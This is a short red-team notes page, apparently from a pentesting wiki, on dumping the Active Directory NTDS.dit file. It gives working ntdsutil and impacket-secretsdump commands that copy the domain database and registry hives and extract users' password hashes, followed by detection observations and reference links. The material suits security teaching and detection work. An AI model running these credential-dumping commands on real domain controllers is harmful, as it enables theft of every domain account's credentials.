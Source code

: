 ```yaml
---
description: >-
  Dumping and enumerating NTDS.dit - a file that contains information about
  Active Directory users (hashes!).
---
```


# NTDS - Domain Controller

## Execution

Dumping the required files using a native windows binary ntdsutil.exe to c:\temp:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## Observations

On the victim machine, no susprises:

![](../../.gitbook/assets/ntdsutil-procexp.png)

Monitoring commandline arguments is as usual a good idea as it can reveal attempts to dump ntds.dit:

![](../../.gitbook/assets/ntdsutil-cmdline.png)

Additionally, there are multiple Application logs that can indicate some activity around the ntds.dit which you may be interested in investigating further:

![](../../.gitbook/assets/ntds-appllication-log.png)

{% embed data="{\"url\":\"https://adsecurity.org/?p=2362\",\"type\":\"link\",\"title\":\"Attack Methods for Gaining Domain Admin Rights in Active Directory – Active Directory Security\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://adsecurity.org/wp-content/uploads/2015/12/MS14068-01.png\",\"width\":600,\"height\":470,\"aspectRatio\":0.7833333333333333}}" %}

{% embed data="{\"url\":\"https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/\",\"type\":\"link\",\"title\":\"Tutorial for NTDS goodness \(VSSADMIN, WMIS, NTDS.dit, SYSTEM\)\",\"description\":\"I recently performed an internal penetration test where the NTDS.dit file got me thousands of password hashes. After compromising unpatched Microsoft Windows computers on the client\'s domain, I gained access to a number of domain accounts. Below I\'ll explain how...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.trustwave.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://www.trustwave.com/uploadedImages/Images/Social\_Share\_Images/Default-Facebook.png\",\"width\":1200,\"height\":627,\"aspectRatio\":0.5225}}" %}



